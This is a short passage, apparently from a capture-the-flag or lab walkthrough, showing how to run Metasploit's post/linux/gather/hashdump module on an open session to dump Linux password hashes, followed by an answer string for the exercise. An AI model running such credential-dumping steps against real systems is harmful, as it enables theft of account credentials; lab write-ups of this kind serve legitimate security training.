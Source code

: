 *Once we get access to the shell we can try to find the hashes. The `hashdump` equivalent for linux is a module called `post/linux/gather/hashdump`*

*First we can background the console*

```bash
use post/linux/gather/hashdump
```

```bash
set session 1
run
```

**Ans:** 
`SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`

---
